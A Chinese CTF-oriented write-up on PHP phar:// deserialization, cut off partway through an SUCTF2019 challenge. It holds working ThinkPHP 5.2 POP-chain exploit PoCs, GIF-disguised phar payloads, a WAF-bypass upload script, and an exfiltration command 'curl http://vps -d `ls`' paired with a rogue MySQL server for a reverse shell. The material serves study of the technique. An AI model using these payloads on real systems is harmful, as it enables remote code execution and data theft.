## 前言

继上篇对thinkphp5版本反序列化pop链详细分析后，对tp的反序列化漏洞有了初步了解，但是其实无论挖掘的pop链有多么的完美，最终还是避免不了要有关键的触发点，否则将一无是处，比如常见的就是反序列化函数 unserialize() ，绝大多数都是靠unserialize函数，反序列化对象触发漏洞。但是在tp框架或者其他框架以及后期开发越来越安全的情况下我们很难再找到这样的触发点。最近也是在各种ctf中碰到的关于tp的pop链构造触发反序列化漏洞，但都是通过 phar 构造反序列化。

关于这个方法在去年 BlackHat 大会上的 Sam Thomas 分享了 [File Operation Induced Unserialization via the “phar://” Stream Wrapper](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf) ，该研究员指出**该方法在 文件系统函数 （ file_get_contents 、 unlink 等）参数可控的情况下，配合 phar://伪协议 ，可以不依赖反序列化函数 unserialize() 直接进行反序列化的操作**。

## 原理分析

#### 0x01.phar文件分析

在了解原理之前，我们查询了一下官方手册，手册里针对 phar:// 这个伪协议是这样介绍的。

> Phar归档文件最有特色的特点是可以方便地将多个文件分组为一个文件。这样，phar归档文件提供了一种将完整的PHP应用程序分发到单个文件中并从该文件运行它的方法，而无需将其提取到磁盘中。此外，PHP可以像在命令行上和从Web服务器上的任何其他文件一样轻松地执行phar存档。 Phar有点像PHP应用程序的拇指驱动器。（译文）

简单理解 phar:// 就是一个类似 file:// 的流包装器，它的作用可以使得多个文件归档到统一文件，并且在不经过解压的情况下被php所访问，并且执行。

下面看一下phar文件的结构：
大体来说 Phar 结构由4部分组成

**1.stub ：phar文件标识**

```
<?php
Phar::mapPhar();
include 'phar://phar.phar/index.php';
__HALT_COMPILER();
?>
```

可以理解为一个标志，格式为`xxx<?php xxx; __HALT_COMPILER();?>`，前面内容不限，但必须以`__HALT_COMPILER();?>`来结尾，否则phar扩展将无法识别这个文件为phar文件。也就是说如果我们留下这个标志位，构造一个图片或者其他文件，那么可以绕过上传限制，并且被 phar 这函数识别利用。

**2. a manifest describing the contents**
phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

**3. the file contents**
被压缩文件的内容。

**4. [optional] a signature for verifying Phar integrity (phar file format only)**
签名，放在文件末尾，格式如下：



#### 0x02 demo测试

根据文件结构我们来自己构建一个phar文件，php内置了一个Phar类来处理相关操作。

注意：要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件。

```
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

可以看到meta-data是以序列化的形式存储的：



#### 0x03将phar伪造成其他格式的文件

前面我们刚刚说了，我们可以 phar 文件必须以`__HALT_COMPILER();?>`来结尾，那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。因此假设这里我们构造一个带有图片文件头部的 phar 文件。

```
<?php
    class TestObject {
    }
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $o->data='hello L1n!';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```





那么我们看看这个假装自己是图片的phar文件最后的效果。

```
<?php
include('phar://phar.jpg');
class TestObject {
    function __destruct()
    {
        echo $this->data;
    }
    }
?>
```



成功反序列化识别文件内容，采用这种方法可以绕过很大一部分上传检测。

#### 0x04触发反序列化的文件操作函数

有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下：



为什么 Phar 会反序列化处理文件并且在文件操作中能够成功反序列化呢？这里需要通过php底层代码才能知道，关于这个问题ZSX师傅的[Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://xz.aliyun.com/t/2958#toc-0)已经详细分析了。
这里通过一个demo论证一下上述结论。仍然以上面的phar文件为例

```
<?php 
    class TestObject {
        public function __destruct() {
            echo $this->data;
            echo 'Destruct called';

        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```



这里可以看到已经反序列化成功触发`__destruct`方法并且读取了文件内容。
其他函数也是可以的，就不一一试了，
如果题目限制了，`phar://`不能出现在头几个字符。可以用`Bzip / Gzip`协议绕过。

```
$filename = 'compress.zlib://phar://phar.phar/test.txt';
```



虽然会警告但仍会执行，它同样适用于`compress.bzip2://`。
当文件系统函数的参数可控时，我们可以在不调用`unserialize()`的情况下进行反序列化操作，极大的拓展了反序列化攻击面。

## 举例分析

**利用条件**
任何漏洞或攻击手法不能实际利用，都是纸上谈兵。在利用之前，先来看一下这种攻击的利用条件。

1.phar文件要能够上传到服务器端。
2.如`file_exists()，fopen()，file_get_contents()，file()`等文件操作的函数要有可用的魔术方法作为"跳板"。
3.文件操作函数的参数可控，且:`:、/、phar`等特殊字符没有被过滤。

这里先用smi1e师傅的demo做个例子。
[php反序列化攻击拓展](https://www.smi1e.top/php反序列化攻击拓展/)
**例一、**
upload_file.php后端检测文件上传，文件类型是否为gif，文件后缀名是否为gif

```
<?php
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {
    echo "Upload: " . $_FILES["file"]["name"];
    echo "Type: " . $_FILES["file"]["type"];
    echo "Temp file: " . $_FILES["file"]["tmp_name"];

    if (file_exists("upload_file/" . $_FILES["file"]["name"]))
      {
      echo $_FILES["file"]["name"] . " already exists. ";
      }
    else
      {
      move_uploaded_file($_FILES["file"]["tmp_name"],
      "upload_file/" .$_FILES["file"]["name"]);
      echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
      }
    }
else
  {
  echo "Invalid file,you can only upload gif";
  }
```

upload_file.html

```
<html>
<body>
<form action="http://localhost/upload_file.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" name="Upload" />
</form>
</body>
</html>
```

un.php存在`file_exists()`，并且存在`__destruct()`

```
<?php
$filename=@$_GET['filename'];
echo 'please input a filename'.'<br />';
class AnyClass{
    var $output = 'echo "ok";';
    function __destruct()
    {   
        eval($this -> output);
    }
}
    if(file_exists($filename)){
        $a = new AnyClass();
    }
    else{
        echo 'file is not exists';
    }
?>
```

该demo环境存在两个点，第一存在文件上传，只能上传gif图，第二存在魔术方法`__destruct()`以及文件操作函数`file_exists()`，而且在AnyClass类中调用了eval，以此用来命令执行。
我们知道以上条件正好满足利用条件。
根据un.php写一个生成phar的php文件，在文件头加上GIF89a绕过gif，然后我们访问这个php文件后，生成了phar.phar，修改后缀为gif，上传到服务器，然后利用file_exists，使用phar://执行代码

poc.php

```
<?php
class AnyClass{
    var $output = '';
}
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new AnyClass();
$object -> output= 'phpinfo();';
$phar -> setMetadata($object);
$phar -> stopBuffering();
```

生成phar文件后，改后缀为gif



```
payload:un.php?filename=phar://phar.gif/test
```



**例二**
现在来看一下tp5.2版本的pop链如何利用Phar反序列化，上篇https://xz.aliyun.com/t/6619讲到了tp的pop链构造和利用原理，最后通过我们自己设的反序列化函数触发点。这里放上利用链，不再分析。

```
think\process\pipes\Windows->__destruct()
 think\process\pipes\Windows->removeFiles()
 think\model\concern\Conversion->__toString()
 think\model\concern\Conversion->toJson()
 think\model\concern\Conversion->toArray()
 think\model\concern\Attribute->getAttr()
 think\model\concern\Attribute->getValue()
```

smi1e师傅的poc：

```
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array('Smi1e' => 'system');

        public function get($system)
        {
            $this->data = array('Smi1e' => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}

namespace {
    //ini_set("phar.readonly", 0);
    $Conver = new think\model\Pivot("ls");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink('test.phar');
    $phar = new Phar('test.phar'); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub('GIF89a<?php __HALT_COMPILER(); ?>'); //设置stub
    $phar->setMetadata($payload); //将自定义的meta-data存入manifest
    $phar->addFromString('test.txt', 'test'); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo urlencode(serialize($payload));
}
?>
```

这里我们自己在tp入口处也设一个触发点，这个poc是2019Nu1lctf中smi1e出的一道关于[mysql任意文件读取及tp5.2phar反序列化](https://www.smi1e.top/n1ctf2019-sql_manage出题笔记/)的题目，具体我们下面会复现下。



加上test.txt，tp不会报错，不加也会触发。



其他师傅用不同的pop链也写了的poc，phar的原理都一样

```
<?php

namespace think\process\pipes {
    class Windows{
        private $files = [];
        function __construct($files)
        {
            $this->files = $files;
        }
    }
}

namespace think\model\concern {
    trait Conversion{
    }
    trait Attribute{
        private $withAttr;
        private $data;
    }
}

namespace think {
    abstract class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
        function __construct($closure)
        {
            $this->data = array("wh1t3p1g"=>[]);
            $this->withAttr = array("wh1t3p1g"=>$closure);
        }
    }
}

namespace think\model {
    class Pivot extends \think\Model{
        function __construct($closure)
        {
            parent::__construct($closure);
        }
    }
}

namespace {
    require __DIR__ . '/../vendor/autoload.php';
    $code = 'phpinfo();';
    $func = function () use ($code) {eval($code);};
    $closure = new \Opis\Closure\SerializableClosure($func);
    $pivot = new \think\model\Pivot($closure);
    $windows = new \think\process\pipes\Windows([$pivot]);
    @unlink("phar4.phar");
    $phar = new Phar("phar4.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($windows); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo urlencode(serialize($windows));
}
?>
```

这个POC是wh1t3p1g师傅找的，我将不需要的变量和类去掉了，易理解。



## 导致phar触发的其他地方(sql)

#### Postgres

```
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "test", "root", "root"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```

当然，pgsqlCopyToFile和pg_trace同样也是能使用的，只是它们需要开启phar的写功能。

#### MySQL

`LOAD DATA LOCAL INFILE`也会触发phar造成反序列化，在今年的[TSec 2019 议题 PPT：Comprehensive analysis of the mysql client attack chain](https://paper.seebug.org/998/)，上面说的N1CTF2019 题目sql_manage考的也是这个点，我们仍然使用最上面那个例子。

```
<?php
class TestObject {
    function __destruct()
    {
        echo $this->data;
        echo 'Destruct called';
    }
    }
    // $filename = 'compress.zlib://phar://phar.phar/test.txt';
    // file_get_contents($filename); 
    $m = mysqli_init();
    mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
    $s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'test', 3306);
    $p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://phar.phar/test.txt\' INTO TABLE users  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;'); 
?>
```



可以看到mysql进行phar文件读取时成功触发反序列化。

下面看两道经典的mysql服务伪造结合phar反序列化的题目

## N1CTF2019 题目sql_manage

这道题给出了源码，用tp5.2写的。因为复现数据库配置做了修改，我就直接说下考点。
**1.找数据库账号密码**





账号密码源码给出的，入口是要求我们登录数据库成功。
**2.绕过验证码，查询sql**



验证码老梗了这是，写脚本跑出来就行，然后重点是如何构造sql语句，这里不再赘述思路了，实际考的是tp5.2pop链构造phar反序列化，所以我们需要找一个可以目录传上phar文件，然后让Mysql客户端读取文件触发反序列化。
所以查找可写目录，为了方便复现，这里我将随机验证码去掉了。



可以看到可写目录如上，然后我们构造phar文件上传上去。配置好

```
[mysqld]
local-infile=1
secure_file_priv="\tmp\"
php.ini
open_basedir=\tmp\
```

这里将可写目录设置如上

**3.pop链挖掘构造反序列化文件**
这步是关于tp5.2反序列化pop链的挖掘，上篇详细讲过，这里用的就是上面写过的smi1e师傅的poc，只写下修改处，因为要打远程拿flag，命令改成curl就行了。

```
<?php
........
namespace {
    //ini_set("phar.readonly", 0);
    $Conver = new think\model\Pivot("curl http://vps -d `ls`");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink('test.phar');
 ........
}
?>
```

生成后，利用sql上传到可写目录下。

**4.正则回溯，绕waf**
题目中放了个小waf



利用p神讲的正则回溯绕过
将生成的phar文件内容转为16进制提出来

```
4749463839613C3F706870205F5F48414C545F434F4D50494C455228293B203F3E0D0A1E0100000100000011000000010000000000E80000004F3A32373A227468696E6B5C70726F636573735C70697065735C57696E646F7773223A313A7B733A33343A22007468696E6B5C70726F636573735C70697065735C57696E646F77730066696C6573223B613A313A7B693A303B4F3A31373A227468696E6B5C6D6F64656C5C5069766F74223A323A7B733A31373A22007468696E6B5C4D6F64656C0064617461223B613A313A7B733A353A22536D693165223B733A323A226C73223B7D733A32313A22007468696E6B5C4D6F64656C007769746841747472223B613A313A7B733A353A22536D693165223B733A363A2273797374656D223B7D7D7D7D08000000746573742E747874040000006EB9B25D040000000C7E7FD8B60100000000000074657374906160458D4348D63ED1F629E96630C7D9685E190200000047424D42
```

因为内容只能以十六进制形式传上去
**exp**

```
#coding=utf-8
import requests
import re 
url = 'http://127.0.0.1:8000/query';
a = 'a'*1000000
data = {
    'query': "select 0x123456 into/*{}*/dumpfile '\tmp\test.phar';".format(a),
    'code': 'khpgo'
}
cookie = {
    'PHPSESSID':'afke2snrp6vrmm1bt8ev11avge'
}

html = requests.post(url=url,data=data,cookies=cookie).text
print(html)
```

测试是否上传成功。



看到文件已经上传成功。

然后修改项目https://github.com/Gifts/Rogue-MySql-Server 把文件名改为phar格式



然后运行文件



host填写运行文件的主机ip也就是前面vps地址，账号密码随意，进去后执行任意sql触发反序列化监听vps端口反弹shell。



## SUCTF2019-Upload labs 2

题目：https://github.com/team-su/SUCTF-2019/tree/master/Web/Upload Labs 2
为了方便复现，题目环境在本地搭建
环境条件：

```
allow_url_include=On 
开启php_fileinfo、php_soap扩展
```

**题目分析**
源码在上面，为节省篇章，就看一下关键代码。
入口文件是文件上传，只允许上传限定图片，会检测上传内容是否含有`<?`
题目详细步骤我就不讲了，网上很多师傅都写了，就说下思路，看phar文件如何反序列化。
class.php

```
....
class Check{  //检查文件内容是否有<?
    public $file_name;
    function __construct($file_name){
        $this->file_name = $file_name;
    }
    function check(){
        $data = file_get_contents($this->file_name);
        if (mb_strpos($data, "<?") !== FALSE) {
            die("&lt;? in contents!");
        }
    }
}
```

然后就是上传后可以查看图片类型
func.php

```
.....
<?php
include 'class.php';
if (isset($_POST["submit"]) && isset($_POST["url"])) {
    if(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_POST['url'])){
        die("Go away!");//通过"GIF89a" . "< language='php'>__HALT_COMPILER();</>"绕waf
    }else{
        $file_path = $_POST['url'];  //获取路径，调用File类的getMIME方法返回图片类型
        $file = new File($file_path);
        //var_dump($file);
        $file->getMIME();

        echo "<p>Your file type is '$file' </p>";
    }
}
```

可以看到很多协议都被过滤掉了。先不讲方法，再接着看源码
config.php

```
<?php 
libxml_disable_entity_loader(true);//禁止XML外部加载，防止实体注入
```

这里说明我们也无法通过xml实体注入了。重点是下面admin.php
admin.php

```
include 'config.php';

class Ad{  //ssrf绕过本地限制触发__destruct执行命令
    public $cmd;
    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;
    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){
        $this->cmd = $cmd;
        //var_dump($this->cmd);
        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }
    function check(){

        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }
    function __destruct(){
        system($this->cmd);
    }
}
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
    if(isset($_POST['admin'])){
        $cmd = $_POST['cmd'];

        $clazz = $_POST['clazz'];
        $func1 = $_POST['func1'];
        $func2 = $_POST['func2'];
        $func3 = $_POST['func3'];
        $arg1 = $_POST['arg1'];
        $arg2 = $_POST['arg2'];
        $arg2 = $_POST['arg3'];
